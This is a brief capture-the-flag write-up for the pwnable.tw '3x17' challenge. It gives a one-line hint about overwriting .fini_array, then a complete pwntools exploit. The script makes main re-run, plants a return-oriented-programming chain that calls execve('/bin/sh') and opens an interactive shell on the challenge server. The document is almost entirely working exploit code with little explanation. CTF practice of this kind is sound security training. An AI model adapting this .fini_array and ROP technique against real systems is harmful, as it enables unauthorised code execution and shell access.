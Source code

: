 # 3x17
> LongChampion, 26/03/2020

## Hint
Have you heard about `overwrite .fini_array` technique?

## Final Solution
If you know `overwrite .fini_array` technique, this challenges is not hard as your expectation :)
```python
#!/usr/bin/env python2

from pwn import *

r = remote("chall.pwnable.tw", 10105)

fini_array_caller = 0x402960
main_addr = 0x401b6d
offset = 0x4b40f0
binsh_addr = offset + 11 * 8
syscall = 0x4022b4
pop_rdi = 0x401696
pop_rsi = 0x406c30
pop_rdx = 0x446e35
pop_rax = 0x41e4af
leave_ret = 0x401c4b


def write(addr, data):
    r.sendlineafter("addr:", str(addr))
    r.sendafter("data:", data)


write(offset, p64(fini_array_caller) + p64(main_addr))
write(offset + 2 * 8, p64(pop_rdi) + p64(binsh_addr))
write(offset + 4 * 8, p64(pop_rsi) + p64(0))
write(offset + 6 * 8, p64(pop_rdx) + p64(0))
write(offset + 8 * 8, p64(pop_rax) + p64(0x3b))
write(offset + 10 * 8, p64(syscall) + "/bin/sh\x00")
write(offset, p64(leave_ret))

r.interactive()
```
